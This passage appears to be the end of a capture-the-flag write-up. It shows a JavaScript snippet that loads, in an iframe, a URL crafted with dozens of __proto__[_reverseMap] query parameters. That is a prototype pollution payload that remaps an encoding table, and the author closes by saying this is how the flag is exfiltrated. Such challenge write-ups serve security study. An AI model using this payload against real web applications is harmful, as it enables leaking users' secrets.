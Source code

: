 ```html
            const evilUrl = "http://localhost:3000/?id=055d2029-0c9d-4f11-9c2b-cd158aec84cc&__proto__[_reverseMap][61]=64&__proto__[_reverseMap][143]=62&__proto__[_reverseMap][147]=63&__proto__[_reverseMap][148]=52&__proto__[_reverseMap][149]=53&__proto__[_reverseMap][150]=54&__proto__[_reverseMap][151]=55&__proto__[_reverseMap][152]=56&__proto__[_reverseMap][153]=57&__proto__[_reverseMap][154]=58&__proto__[_reverseMap][155]=59&__proto__[_reverseMap][156]=60&__proto__[_reverseMap][157]=61&__proto__[_reverseMap][165]=0&__proto__[_reverseMap][166]=1&__proto__[_reverseMap][167]=2&__proto__[_reverseMap][168]=3&__proto__[_reverseMap][169]=4&__proto__[_reverseMap][170]=5&__proto__[_reverseMap][171]=6&__proto__[_reverseMap][172]=7&__proto__[_reverseMap][173]=8&__proto__[_reverseMap][174]=9&__proto__[_reverseMap][175]=10&__proto__[_reverseMap][176]=11&__proto__[_reverseMap][177]=12&__proto__[_reverseMap][178]=13&__proto__[_reverseMap][179]=14&__proto__[_reverseMap][180]=15&__proto__[_reverseMap][181]=16&__proto__[_reverseMap][182]=17&__proto__[_reverseMap][183]=18&__proto__[_reverseMap][184]=19&__proto__[_reverseMap][185]=20&__proto__[_reverseMap][186]=21&__proto__[_reverseMap][187]=22&__proto__[_reverseMap][188]=23&__proto__[_reverseMap][189]=24&__proto__[_reverseMap][190]=25&__proto__[_reverseMap][197]=26&__proto__[_reverseMap][198]=27&__proto__[_reverseMap][199]=28&__proto__[_reverseMap][200]=29&__proto__[_reverseMap][201]=30&__proto__[_reverseMap][202]=31&__proto__[_reverseMap][203]=32&__proto__[_reverseMap][204]=33&__proto__[_reverseMap][205]=34&__proto__[_reverseMap][206]=35&__proto__[_reverseMap][207]=36&__proto__[_reverseMap][208]=37&__proto__[_reverseMap][209]=38&__proto__[_reverseMap][210]=39&__proto__[_reverseMap][211]=40&__proto__[_reverseMap][212]=41&__proto__[_reverseMap][213]=42&__proto__[_reverseMap][214]=43&__proto__[_reverseMap][215]=44&__proto__[_reverseMap][216]=45&__proto__[_reverseMap][217]=46&__proto__[_reverseMap][218]=47&__proto__[_reverseMap][219]=48&__proto__[_reverseMap][220]=49&__proto__[_reverseMap][221]=50&__proto__[_reverseMap][222]=51"
            const iframe = document.createElement("iframe");
            iframe.src = evilUrl;
            document.body.appendChild(iframe);
        })();
    </script>
</body>
```

And that's how we exfil the flag.